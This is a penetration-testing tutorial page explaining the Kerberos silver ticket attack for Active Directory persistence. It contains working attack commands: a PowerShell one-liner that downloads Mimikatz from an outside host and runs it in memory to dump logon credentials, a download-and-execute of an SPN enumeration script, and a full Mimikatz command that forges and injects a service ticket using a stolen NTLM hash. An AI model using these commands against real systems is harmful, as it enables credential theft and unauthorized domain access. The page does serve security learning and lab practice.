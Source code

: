 # Silver Ticket

## Intro

Silver ticket attack is one of the ways to gain domain persistence. Once you have gained domain admin or you could dump hashes of a service account some how. If you have recalled how Kerberos works let’s see where this attack fits in the cycle.

On the last step of the process when the client sends a TGS to the service that is where we can send a forged TGS and get access directly to the service and get a service ticket using this method.

![](../../../.gitbook/assets/image%20%28191%29.png)

#### Silver ticket abuses the part of Kerberos authentication where a client sends a Valid TGS to get a service ticket. So if an attacker knows the hash of the service account he can forge a fake service ticket with it. Kerberos will trust it since it can be decrypted by the service as its signed by the NTLM hash of the service.

{% hint style="info" %}
downside of this attack is at unlike golden ticket which gives us access to everything. A silver ticket will only allow us access to a particular service or all the services that are running with the same service account.

Another disadvantage of this attack is if the service account is a machine account or a user account. If the password of the account changes this attack will fail. Since we wont have the correct hash of the user/machine account usually it changes within 30 days for machines. We would generally target these services when it comes to performing a silver ticket attack. CIFS \(file system\), HOST \( can schedule tasks \), RPCSS Host \(runs wmi\), WSman/http \(ps remoting\) all of these use the machine account as there service account.
{% endhint %}

## Dumping Password Hash

If an attacker can gain admin rights to the computer \(to gain debug access\) or be able to run code as local System, the attacker can dump the AD computer account password hash from the system using Mimikatz \(the NTLM password hash is used to encrypt RC4 Kerberos tickets\)

#### run this with admin privileges to load mimikatz into memory and dump user hashes:

```text
powershell -ep bypass -c "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.56.1/mimikatz.ps1'); invoke-mimikatz -command 'sekurlsa::logonpasswords'"
```

![](../../../.gitbook/assets/image%20%28189%29.png)

**Target** – This is the host, which can be copied from the SPN value. 

```text
powershell -ep bypass -c "iex(new-object system.net.webclient).downloadstring('http://192.168.56.1/getspn.ps1')"
```

![](../../../.gitbook/assets/image%20%28186%29.png)

## Forging Silver Ticket

#### the syntax for mimikatz command is:

```text
 Invoke-Mimikatz -Command 'kerberos::golden /domain:megabank.local /sid:S-1-5-21-4081310294-3909750490-1069944866-1156 /target:sql.megabank.local:60111 /service:sql /rc4:77a5ee35032ad22d515577e7bd8e56c7 /user:paul /ptt'
```

**/domain :** domain name

**/sid:** domain SID value

**/target:** target service SPN

**/service:** service name

**/user:** username to create ticket for

**/rc4:** NTLM hash, will use 

**/id , /groups :** these are to specify user id and group but this is optional

/endin : specify ticket lifetime in minutes \(default 10 years\)

**/ptt :** stands for pass the ticket it will load the ticket in memory. If we want to extract ticket on disk we can use **/ticket** option instead.

#### Now if we run the command above we get silver ticket that is created and stored in our current session

#### Now if we try to access the file system on sql.megabank.local machine. We can do it because we already have the tickets to authenticate us.

## Host Exploitation with Silver Ticket

By issuing a klist command you can see that we now have the ticket for sql service.

 

![](../../../.gitbook/assets/image%20%28190%29.png)



more attack scenarios with silver tickets

{% embed url="https://adsecurity.org/?p=2011" %}





